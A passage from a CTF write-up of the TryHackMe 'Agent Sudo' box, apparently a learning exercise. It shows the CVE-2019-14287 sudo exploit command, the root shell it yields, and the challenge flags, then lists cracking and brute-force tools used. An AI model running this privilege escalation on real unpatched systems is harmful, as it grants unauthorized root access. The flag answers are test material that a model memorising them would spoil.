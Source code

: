 After some research I found this:

[CVE-2019-14287](https://www.cybersecurity-help.cz/vdb/SB2019101501)

Anser: `CVE-2019-14287`

I used this command from here https://www.exploit-db.com/exploits/47502:

`sudo -u#-1 /bin/bash`

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
[sudo] password for james:
root@agent-sudo:~# cd /root
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
root@agent-sudo:/root#

```

Answer: `b53a02f55b57d4439e3341834d70c062`

### (Bonus) Who is Agent R?


We found him already in the text file. 

`DesKel a.k.a Agent R`

Answer: `DesKel`





## Thoughts:
I like this CTF really much but it costs a lot of time. I think the task with the `CVE` was not clear, there are many possibilities for getting an elevated shell. But very interesting and we used a lot of tools! 

What did we learn?
- using `nmap` for scan open ports and versions
- using `ftp` for browsing in files.
- using `hydra` to bruteforce
- using `curl` to spoof `user-agents`
- we created a script which automated our `curl spoofing`
- using `binwalk` to find embedded files in images
- using `zip2john` and `john` for cracking a zip file
- using `steghide` find hidden data in image and audio files
- using `linepeas.sh` for finding potential vulnerabilities 


